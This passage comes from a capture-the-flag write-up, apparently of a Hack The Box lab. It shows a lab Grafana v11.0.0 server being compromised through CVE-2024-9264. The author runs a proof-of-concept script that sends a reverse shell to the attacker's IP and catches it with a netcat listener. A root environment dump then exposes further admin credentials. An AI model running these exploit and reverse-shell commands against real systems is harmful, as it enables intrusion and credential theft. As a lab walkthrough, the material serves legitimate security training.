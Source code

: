 You remember the credentials that we supposed to use them ? It’s the time to really make it in use. But before that, I like investigating a little more before loging in. We see on the bottom of the login page the version of grafana which is grafana v11.0.0.

Okay let’s note that maybe we do need it after. We can use (admin / 0D5oT70Fq13EvB5r) now to login.
## **Exploitation**
![new.png](attachment:6924cc27-d4ae-4179-9f6e-09b98bc3dd7e:new.png)

I was surfing in the website found many interesting things like plugins and users access. But i guess it’s the time to search for this Grafana website and for a CVE that fits the v11.0.0

![cve.png](attachment:4967d041-ec2f-4eea-9df6-758196c938af:cve.png)

Interesting!!!! **CVE-2024-9264** do meet our requirement here which is an RCE exploit via SQL. Let’s go ahead and download the POC.

After downloading the [poc.py](http://poc.py) file we will make it in use now on our attacker machine.

```bash
└─$ python poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <Your-IP> --reverse-port 9001
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9001

```

Of course you should not forget the listener in another bash so it can intercept.

```bash
└─$ nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.68] 55526
sh: 0: can't access tty; job control turned off
# /bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# 
```

I was for 15 minutes searching everywhere with not finding anything. And then remembered to check the environment and the surprise was there. We got new creds guysss !!!!!

```bash
root@7ce659d667d7:~# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```